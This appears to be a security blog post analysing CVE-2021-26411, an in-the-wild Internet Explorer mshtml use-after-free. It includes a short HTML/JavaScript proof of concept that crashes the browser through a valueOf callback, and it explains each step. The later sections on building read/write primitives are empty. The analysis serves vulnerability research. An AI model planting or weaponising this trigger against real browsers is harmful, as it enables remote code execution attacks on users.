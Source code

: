 ```yaml
---
layout: post
toc: true
title: "CVE-2021-26411: Internet Explorer mshtml use-after-free"
tags: [0day, itw, ie]
author:
  - iamelli0t
---
```


In January of this year, Google and Microsoft respectively published blogs revealing attacks on security researchers by an APT group in North Korea[1][2]. A vulnerability in Internet Explorer used in this attack was fixed as CVE-2021-26411 in Microsoft's Patch Tuesday this month[3]. The vulnerability is triggered when users of the affected version of Internet Explorer access a malicious link constructed by the attacker, causing remote code execution.

## Root cause analyses
The POC that can trigger the vulnerability is shown below:
```html
<script>
var elem = document.createElement('xxx'); 
var attr1 = document.createAttribute('yyy'); 
var attr2 = document.createAttribute('zzz'); 

var obj = {};
obj.valueOf = function() {
	elem.clearAttributes();
	return 0x1337;
};

attr1.nodeValue = obj;
attr2.nodeValue = 123;
elem.setAttributeNode(attr1);
elem.setAttributeNode(attr2);
elem.removeAttributeNode(attr1); 
</script>
```

Execution process of POC:
1. Create 1 HTML Element object (elem) and 2 HTML Attribute objects (attr1 and attr2)
2. Assign a value to the nodeValue of two Attribute objects, where attr1's nodeValue points to an Object that overloads ValueOf
3. Bind two Attribute objects attr1 and attr2 to Element object elem
4. Call elem.removeAttributeNode(attr1) to remove the attribute attr1 object of 'xxx'
5. The removeAttributeNode method triggers a callback to the valueOf function, during which clearAttributes() is called to clear all attribute objects bound by the eLEM object: attr1 and attr2
6. ValueOf callback returns, IE Tab process crashes at null pointer dereference:


## From nullptr dereference to read/write primitive


## Some thoughts


## References
[1] https://blog.google/threat-analysis-group/new-campaign-targeting-security-researchers/

[2] https://www.microsoft.com/security/blog/2021/01/28/zinc-attacks-against-security-researchers/

[3] https://msrc.microsoft.com/update-guide/en-us/vulnerability/CVE-2021-26411 

[4] https://enki.co.kr/blog/2021/02/04/ie_0day.html
